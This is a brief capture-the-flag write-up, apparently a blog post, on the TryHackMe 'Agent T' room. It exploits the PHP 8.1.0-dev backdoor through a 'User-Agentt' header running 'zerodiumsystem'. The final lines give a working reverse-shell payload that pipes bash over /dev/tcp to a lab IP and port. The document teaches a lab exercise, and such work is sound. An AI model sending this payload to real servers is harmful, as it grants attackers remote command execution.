 ```yaml
---
title: Agent T
description: PHP v8.1.0-dev backdoor
pubDate: 2023-06-29
category: 'tryhackme'
tags: ['php', 'v8.1.0-dev', 'zerodiumsystem']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/5dbc4e7d8515e7bc05b7742f26944ae9.png'
---
```


Looking at the response headers we see:
```
X-Powered-By: PHP/8.1.0-dev
```

This version has a backdoor (https://www.exploit-db.com/exploits/49933) which we can abuse.

It uses the uses a second special `User-Agentt` header to execute code.

```
"User-Agentt": "zerodiumsystem('<cmd>);"
```

Getting a reverse shell:
```
User-Agentt: zerodiumsystem('bash -c "bash -i >& /dev/tcp/10.8.119.137/4444 0>&1"');
```
